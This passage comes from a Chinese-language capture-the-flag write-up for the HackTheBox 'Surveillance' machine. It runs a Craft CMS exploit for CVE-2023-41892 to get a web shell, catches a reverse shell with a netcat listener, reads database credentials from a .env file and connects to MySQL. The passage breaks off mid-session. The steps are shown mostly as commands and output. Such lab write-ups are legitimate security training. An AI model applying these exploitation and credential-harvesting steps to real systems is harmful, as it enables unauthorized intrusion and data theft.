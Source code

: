 https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226

```bash
└─$ python CVE-2023-41892.py "http://surveillance.htb/"
[-] Get temporary folder and document root ...
<i>no value</i>,   /var/www/html/craft/web
[-] Write payload to temporary file ...
[-] Trigger imagick to write shell ...
[-] Done, enjoy the shell
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

getshell，不过有点问题，发现似乎有些限制，例如无法移动目录。于是再运行了个反弹shell命令，kali接收：
```bash
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.245] 43280
www-data@surveillance:~/html/craft/web/cpresources$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


## MySQL信息泄漏

稍微在这个web项目文件夹附近探索一下，发现mysql凭据。看了眼本地监听端口有3306，遂连接mysql看看：
```bash
www-data@surveillance:~/html/craft$ cat .env
 (...)
# Database connection settings
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=craftdb
CRAFT_DB_USER=craftuser
CRAFT_DB_PASSWORD=CraftCMSPassword2023!
CRAFT_DB_SCHEMA=
CRAFT_DB_TABLE_PREFIX=

# General settings (see config/general.php)
DEV_MODE=false
ALLOW_ADMIN_CHANGES=false
DISALLOW_ROBOTS=false

PRIMARY_SITE_URL=http://surveillance.htb/

www-data@surveillance:~/html/craft$ ss -anotl
State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess
LISTEN 0      511        127.0.0.1:8080      0.0.0.0:*          
LISTEN 0      511          0.0.0.0:80        0.0.0.0:*          
LISTEN 0      4096   127.0.0.53%lo:53        0.0.0.0:*          
LISTEN 0      128          0.0.0.0:22        0.0.0.0:*          
LISTEN 0      5            0.0.0.0:8000      0.0.0.0:*          
LISTEN 0      80         127.0.0.1:3306      0.0.0.0:*          
LISTEN 0      128             [::]:22           [::]:*          
www-data@surveillance:~/html/craft$ which mysql
/usr/bin/mysql
www-data@surveillance:~/html/craft$ mysql -u craftuser -p craftdb
Enter password: 
ERROR 1045 (28000): Access denied for user 'craftuser'@'localhost' (using password: YES)


www-data@surveillance:~/html/craft$ mysql -h 127.0.0.1 -u craftuser -p craftdb
Enter password: 
Reading table information for completion of table and column names
```